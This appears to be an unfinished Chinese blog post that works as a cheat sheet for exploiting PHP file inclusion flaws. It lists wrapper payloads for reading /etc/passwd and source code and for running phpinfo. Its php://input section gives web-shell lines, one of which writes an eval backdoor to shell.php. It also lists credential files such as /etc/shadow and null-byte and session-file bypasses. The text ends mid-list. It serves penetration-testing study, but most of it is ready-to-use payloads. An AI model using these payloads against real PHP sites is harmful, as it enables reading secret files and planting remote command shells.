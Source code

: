 ```yaml
---
layout: post
title: File Include
subtitle: 文件包含漏洞
date: 2025-07-09 16:44
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags: 
published: false
---
```

### 文件包含伪协议

#### file://

用于读取本地文件，必须使用绝对路径，php项目读取php文件时会执行其中代码，导致无法读取到源码。

```php
file:///etc/passwd
file://C:\Windows\System32\drivers\etc\hosts
file:///windows/system32/drivers/etc/hosts
```
#### php://filter

读取指定资源，可以是本地也可以是远程资源，可指定编码类型对内容编码，在读取php文件时可防止其运行，从而读取源码。

```php
php://filter/ {operation}={filter_chain}/resource={source}
php://filter/read=convert.base64-encode/resource=http://www.baidu.com
php://filter/convert.base64-encode/resource=http://www.baidu.com
php://filter/resource=http://www.baidu.com
php://filter/resource=../index.php

operation: read write
filter-chain: convert.base64-encode convert.base64-decode
```
#### php://input

用于读取原始的 POST 请求数据

```php
php://input

POST数据：
<?php eval($_POST['cmd']);?>
<?php fputs(fopen('shell.php','w'),'<?php @eval($_REQUEST["cmd"]);?>');?>
```
#### data://

用于在 URL 中嵌入小块数据

```php
data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
data://a/b,<?php phpinfo();?>
data:,<?php phpinfo();?>
```
#### zlib://

```php
compress.zlib://shell.php.gz
```

### 敏感文件

```
/etc/shadow(存放密码)
/etc/gshadow(存放密码)
/etc/profile(系统环境)
/etc/group(组的数据库文件)
/etc/my.conf(MYSQL配置信息)
/usr/etc/php.ini(PHP配置信息)
/etc/crontab(crontab配置文件)
/etc/passwd(系统用户数据库文件)
/etc/httpd/conf/httpd.conf(Apache配置信息)
```

### 文件包含绕过

1. %00截断

```
?filename=file:///var/log/httpd/access_log%00
```

1. %23截断
2. session文件包含
	session文件保存位置：`/var/lib/php/session`，文件名`sess_xxxx`
3. 
